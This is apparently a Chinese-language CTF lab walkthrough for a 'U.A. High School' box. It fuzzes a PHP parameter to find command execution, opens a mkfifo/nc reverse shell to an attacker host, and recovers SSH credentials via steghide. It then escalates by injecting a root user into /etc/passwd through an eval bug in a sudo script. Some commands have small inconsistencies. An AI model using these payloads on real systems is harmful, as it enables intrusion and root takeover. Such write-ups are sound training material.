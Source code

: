 ```yaml
---
icon: pen-to-square
date: 2025-05-07
tags: 
title: U.A. High School
category:
  - 项目
---
```

## 解题过程
端口扫描和网站爆破之后没有发现可以利用的点
但是在http://10.10.74.25/assets/images的响应很有趣
![image.png](https://cdn.jsdelivr.net/gh/fakeppa/blog-img/20250507213758.png)

证明了网页的存在，当访问http://10.10.36.251/assets/时，我们可以发现设置了`session`这意味着我们很可能访问了某个php文件

发现是个php文件后就有了一点操作空间，可以用模糊测试对php的参数进行碰撞
构造命令进行碰撞
```bash
ffuf -u 'http://10.10.85.228/assets/index.php?FUZZ=id' -mc all -ic -t 100 -w /usr/share/seclists/Discovery/Web-Content/raft-small-words-lowercase.txt -fs 0
```
1. ​**​`-u 'http://10.10.85.228/assets/index.php?FUZZ=id'`​**​
    - ​**​作用​**​：指定目标 URL，`FUZZ` 是占位符，表示此处会被字典中的词替换。
    - ​**​示例​**​：若字典中有词 `user`，则实际请求为 `http://.../index.php?user=id`。
2. ​**​`-mc all`​**​
    - ​**​作用​**​：匹配所有 HTTP 状态码（`-mc` 表示 "match HTTP status code"）。
    - ​**​注意​**​：默认情况下，`ffuf` 仅显示状态码为 200、204、301 等的响应。使用 `all` 会显示所有状态码的响应（可能包含误报）。
3. ​**​`-ic`​**​
    - ​**​作用​**​：忽略响应中的 HTML 注释（`ignore comments`），避免因注释内容干扰结果判断。
4. ​**​`-t 100`​**​
    - ​**​作用​**​：设置并发线程数为 100，提高扫描速度。
5. ​**​`-w /usr/share/seclists/Discovery/Web-Content/raft-small-words-lowercase.txt`​**​
    - ​**​作用​**​：指定用于替换 `FUZZ` 的字典文件路径（常见 Web 参数名的小写单词列表）。
6. ​**​`-fs 0`​**​
    - ​**​作用​**​：过滤（不显示）响应体大小为 0 的结果（`fs` 表示 "filter response size"）。
    - ​**​意图​**​：排除无实际内容的响应（如空页面或错误响应）。
![image.png](https://cdn.jsdelivr.net/gh/fakeppa/blog-img/20250508192204.png)

搜索到参数`cmd`
似乎时RCE漏洞，试试看
![image.png](https://cdn.jsdelivr.net/gh/fakeppa/blog-img/20250508192422.png)
似乎是base64加密
解一下码看看
![image.png](https://cdn.jsdelivr.net/gh/fakeppa/blog-img/20250508194401.png)
接下来高端操作来了
### 反弹shell
首先监听反射端口
```bash
nc -lvnp 1232
```
然后构造命令

```bash
curl -s 'http://10.10.38.88/assets/index.php' -G --data-urlencode 'cmd=rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|bash -i 2>&1|nc 10.10.50.132 1232 >/tmp/f'
```
这个目录有个可以的txt文件
```bash
/var/www/Hidden_Content
```

内容：`AllmightForEver!!!`


按下不表，继续看目录
然后看看assesst之前不让访问的目录
发现有一个`oneforall.jpg`图片，这是没使用过的资源，或者说这里确实有些跳跃，直接进入到

### 图片隐写提取
**图片恢复**
通过访问`http://10.10.38.88/assets/images/oneforall.jpg`将图片拉到本地
发现无法打开，进行图片恢复
010打开发现魔术字节为PNG，
手动恢复前几个字节
![image.png](https://cdn.jsdelivr.net/gh/fakeppa/blog-img/20250508205950.png)

```hex
FF D8 FF E0 00 10 4A 46 49 46
```
图片显示正确
![image.png](https://cdn.jsdelivr.net/gh/fakeppa/blog-img/20250508210008.png)

`binwalk`无法分离出有效文件
尝试`steghide`对隐写进行提取
```bash
steghide extract -sf oneforall.jpg
```
密码就是之前`Hidden_Content`目录下的文件
`AllmightForEver!!!`
发现密码
```bash
└─# cat creds.txt
Hi Deku, this is the only way I've found to give you your account credentials, as soon as you have them, delete this file:

deku:One?For?All_!!one1/A
```

接下来，尝试连接ssh。
`deku`
`One?For?All_!!one1/A`
连接成功
![image.png](https://cdn.jsdelivr.net/gh/fakeppa/blog-img/20250508211219.png)

拿到第一个flag
![image.png](https://cdn.jsdelivr.net/gh/fakeppa/blog-img/20250508211615.png)
查看当前用户的权限
```bash
deku@myheroacademia:~$ sudo -l
[sudo] password for deku:
Matching Defaults entries for deku on myheroacademia:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User deku may run the following commands on myheroacademia:
    (ALL) /opt/NewComponent/feedback.sh
```
提示在系统 `myheroacademia` 上，用户 `deku` 被允许以 ​**​root 权限（`(ALL)`）​**​ 执行以下命令：

```bash
/opt/NewComponent/feedback.sh
```

查看脚本的权限，我们的用户拥有它。所以，我们应该能够修改它。
```bash
deku@myheroacademia:~$ ls -la /opt/NewComponent/feedback.sh
-r-xr-xr-x 1 deku deku 684 Jan 23  2024 /opt/NewComponent/feedback.sh
```

但是如果我们尝试直接输入提权命令到那个文件，我们可以看到这是不允许的。
```bash
deku@myheroacademia:~$ echo -e '#!/bin/bash\nchmod +s /bin/bash' > /opt/NewComponent/feedback.sh
-bash: /opt/NewComponent/feedback.sh: Operation not permitted
```

列出文件的属性，我们可以看到标志已设置，这阻止了我们修改它.
```bash
deku@myheroacademia:/opt/NewComponent$ lsattr feedback.sh
----i---------e----- feedback.sh

```

由于我们无法修改它，让我们检查一下脚本内容。
```bash
#!/bin/bash

echo "Hello, Welcome to the Report Form       "
echo "This is a way to report various problems"
echo "    Developed by                        "
echo "        The Technical Department of U.A."

echo "Enter your feedback:"
read feedback

if [[ "$feedback" != *"\`"* && "$feedback" != *")"* && "$feedback" != *"\$("* && "$feedback" != *"|"* && "$feedback" != *"&"* && "$feedback" != *";"* && "$feedback" != *"?"* && "$feedback" != *"!"* && "$feedback" != *"\\"* ]]; then
    echo "It is This:"
    eval "echo $feedback"

    echo "$feedback" >> /var/log/feedback.txt
    echo "Feedback successfully saved."
else
    echo "Invalid input. Please provide a valid input."
fi
```
该脚本通过 `eval "echo $feedback"` 直接执行用户输入的内容，虽然过滤了部分特殊字符（如反引号 `` ` ``、`$(`），但过滤不彻底，依据可以输入`>以及/`攻击者可构造恶意输入绕过限制，注入任意命令。
- 输入 `$(malicious_command)` 或 `${ls,-la}` 等格式，执行系统命令。
```bash
eval echo $(chmod +s /bin/bash)
```

`mkpasswd` 是一个用于 ​**​生成密码哈希值​**​ 的命令行工具，常见于 Linux 系统（通常包含在 `whois` 软件包中）。
```bash
mkpasswd -m md5crypt -s
```
- ​**​核心用途​**​：将明文密码转换为哈希值（用于安全存储或认证）。
**参数解析**
```
-m md5crypt
```
- 指定使用 ​**​MD5-based crypt 算法​**​（旧版 Linux 系统的默认密码哈希算法）。
- -s: 从键盘读取输入
我们随便指定一个密码，生成`linux`的用户密码哈希
```bash
┌──(root㉿localhost)-[~]
└─# mkpasswd -m md5crypt -s
Password: 123
$1$wG73jJds$9XZDWLWoF7fvXjw9Sv2f9.
```

接下来我们利用f`eedback.sh`的root权限写入用户以及密码
```bash
deku@myheroacademia:/opt/NewComponent$ sudo ./feedback.sh
[sudo] password for deku:
Hello, Welcome to the Report Form
This is a way to report various problems
    Developed by
        The Technical Department of U.A.
Enter your feedback:
'jxf:$1$MgMMCplp$bx1JXnOEyOXMkHf9VnHgK0:0:0:jxf:/root:/bin/bash' >> /etc/passwd
It is This:
Feedback successfully saved.
```

`tail -n1 /etc/passwd`查看`passwd`的最后一行。是否写入用户密码。
`username:x:UID:GID:用户描述:主目录:登录Shell`

切换用户
```
su -jxf
```

`wc -c root.txt`